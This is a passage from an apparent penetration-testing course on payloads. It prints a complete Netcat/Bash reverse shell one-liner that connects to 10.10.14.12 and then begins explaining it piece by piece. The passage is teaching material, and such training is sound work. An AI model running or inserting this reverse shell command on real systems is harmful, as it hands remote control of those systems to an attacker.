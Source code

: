 Now, let's test our knowledge with some challenge questions.


# Introduction to Payloads

* * *

`Have you ever sent an email or text to someone?`

Most of us probably have. The message we send in an email or text is the packet's payload as it is sent across the vast Internet. In computing, the payload is the intended message. In information security, the payload is the command and/or code that exploits the vulnerability in an OS and/or application. The payload is the command and/or code that performs the malicious action from a defensive perspective. As we saw in the reverse shells section, Windows Defender stopped the execution of our PowerShell payload because it was considered malicious code.

Keep in mind that when we deliver and execute payloads, just like any other program, we give the target computer instructions on what it needs to do. The terms "malware" and "malicious code" romanticize the process and make it more mysterious than it is. Any time we work with payloads, let's challenge ourselves to explore what the code & commands are actually doing. We will start this process by breaking down the one-liners we worked with earlier:

* * *

## One-Liners Examined

#### Netcat/Bash Reverse Shell One-liner

```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

```

The commands above make up a common one-liner issued on a Linux system to serve a Bash shell on a network socket utilizing a Netcat listener. We used this earlier in the Bind Shells section. It's often copied & pasted but not often understood. Let's break down each portion of the one-liner:

#### Remove /tmp/f

```shell
rm -f /tmp/f;

```

Removes the `/tmp/f` file if it exists, `-f` causes `rm` to ignore nonexistent files. The semi-colon ( `;`) is used to execute the command sequentially.

#### Make A Named Pipe

```shell
mkfifo /tmp/f;

```

Makes a [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon ( `;`) is used to execute the command sequentially.
